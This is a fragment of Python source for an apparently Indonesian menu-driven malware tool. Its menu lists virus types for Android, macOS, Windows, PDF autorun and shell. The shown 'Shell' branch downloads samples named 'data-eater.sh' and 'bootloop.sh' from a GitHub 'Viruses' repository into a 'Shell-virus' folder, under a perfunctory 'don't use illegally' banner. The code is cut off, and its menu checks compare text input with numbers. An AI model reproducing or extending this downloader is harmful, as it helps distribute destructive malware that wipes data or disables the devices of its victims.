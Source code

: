     try:
        menu6 = input("Input number > "+R+"")
        if menu6 == 1:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/data-eater.sh?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'data-eater.sh?raw=true' Shell-virus/Data-Eater.sh")
            print(fun)#####done
            
        elif menu6 == 2:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/bootloop.sh?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'bootloop.sh?raw=true' Shell-virus/Bootloop.sh")
            print(fun)#####done
        elif menu6 == 3:
            print("\n")
            menu()
        else:
            print(""+R+"[!] wrong number")
    except Exception:
        print(""+R+"[!] This is not number")
        
def banner2():
    print(""+G+"Tolong Jangan"+R+" Gunakan "+G+"Tool ini Untuk Illegal activity")
    print(""+R+"[!] "+G+"Tetap Legal Jangan Ilegal By ⊱XͭPͪLͤᗝIƬ༻₁₀₀ᵏ "+R+" [!]"+O+"")
def menu():
    print("\n"+R+"[========== Menu ==========]"+O+"")
    print(""+O+"["+R+"1"+O+"] Android\t\t["+R+"4"+O+"] Pdf Autorun PC\t\t["+R+"7"+O+"] Update tool")
    print(""+O+"["+R+"2"+O+"] Macosx\t\t["+R+"5"+O+"] Other\t\t\t["+R+"8"+O+"] About")
    print(""+O+"["+R+"3"+O+"] Windows\t\t["+R+"6"+O+"] Shell\t\t\t["+R+"9"+O+"] Exit")
    try:
        menu = input("\nInput Number > "+R+"")
        if menu == 1:
            os.system("clear")
            Vandroid()
        elif menu == 2:
            os.system("clear")
            Vmacosx()
        elif menu == 3:
            os.system("clear")
            vpcwin()
        elif menu == 4:
            os.system("clear")
            Vpdfautorunpc()
        elif menu == 5:
            os.system("clear")
            Vother()
        elif menu == 6:
            os.system("clear")